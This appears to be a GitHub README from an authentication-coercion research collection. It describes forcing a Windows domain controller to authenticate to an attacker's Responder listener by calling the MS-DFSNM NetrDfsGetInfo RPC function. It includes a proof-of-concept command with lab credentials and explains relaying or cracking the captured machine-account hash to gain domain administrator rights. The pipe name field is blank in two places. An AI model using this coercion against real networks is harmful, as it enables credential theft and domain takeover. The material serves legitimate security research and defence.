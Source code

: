 # MS-DFSNM - Remote call to NetrDfsGetInfo (opnum 4)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrDfsGetInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b5dd4568-3ea4-4f27-ae03-3ebb19fa4b13)

 - **Function operation number**: `4`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsGetInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b5dd4568-3ea4-4f27-ae03-3ebb19fa4b13) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsGetInfo('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsGetInfo(
   [in, string] WCHAR* DfsEntryPath,
   [in, unique, string] WCHAR* ServerName,
   [in, unique, string] WCHAR* ShareName,
   [in] DWORD Level,
   [out, switch_is(Level)] DFS_INFO_STRUCT* DfsInfo
 );
```

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsGetInfo`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b5dd4568-3ea4-4f27-ae03-3ebb19fa4b13